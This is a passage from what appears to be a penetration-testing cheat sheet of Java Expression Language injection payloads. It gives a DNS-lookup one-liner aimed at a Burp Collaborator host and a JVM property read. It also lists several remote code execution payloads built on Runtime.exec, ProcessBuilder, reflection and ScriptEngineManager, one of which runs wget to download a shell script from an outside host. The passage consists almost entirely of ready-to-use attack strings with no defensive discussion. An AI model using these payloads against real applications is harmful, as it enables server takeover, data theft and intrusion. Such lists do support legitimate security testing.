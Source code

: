 ### Expression Language EL - One-Liner injections not including code execution

```java
// DNS Lookup
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

// JVM System Property Lookup (ex: java.class.path)
${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}
```

### Expression Language EL - Code Execution

```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// Method using processbuilder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using ScriptEngineManager
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```

---